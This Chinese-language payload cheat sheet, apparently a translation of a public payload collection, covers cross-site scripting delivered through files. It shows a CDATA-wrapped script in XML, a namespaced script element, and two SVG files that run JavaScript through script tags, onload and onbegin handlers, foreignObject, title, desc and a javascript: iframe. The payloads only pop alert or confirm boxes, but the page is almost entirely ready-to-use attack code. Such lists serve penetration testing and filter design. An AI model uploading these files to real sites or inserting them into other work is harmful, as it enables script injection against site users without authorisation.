 ## 文件中的XSS

**注意**：这里使用XML CDATA节是为了让JavaScript载荷不被当作XML标记处理。

```xml
<name>
  <value><![CDATA[<script>confirm(document.domain)</script>]]></value>
</name>
```

### XML中的XSS

```xml
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>
```

### SVG中的XSS

简单的脚本。代号：绿色三角形

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert(document.domain);
  </script>
</svg>
```

更全面的带有SVG标签属性、desc脚本、foreignObject脚本、foreignObject iframe、title脚本、animatetransform事件和简单脚本的载荷。代号：红色闪电。作者：noraj。

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" width="100" height="100" xmlns="http://www.w3.org/2000/svg" onload="alert('svg attribut')">
  <polygon id="lightning" points="0,100 50,25 50,75 100,0" fill="#ff1919" stroke="#ff0000"/>
  <desc><script>alert('svg desc')</script></desc>
  <foreignObject><script>alert('svg foreignObject')</script></foreignObject>
  <foreignObject width="500" height="500">
    <iframe xmlns="http://www.w3.org/1999/xhtml" src="javascript:alert('svg foreignObject iframe');" width="400" height="250"/>
  </foreignObject>
  <title><script>alert('svg title')</script></title>
  <animatetransform onbegin="alert('svg animatetransform onbegin')"></animatetransform>
  <script type="text/javascript">
    alert('svg script');
  </script>
</svg>
```
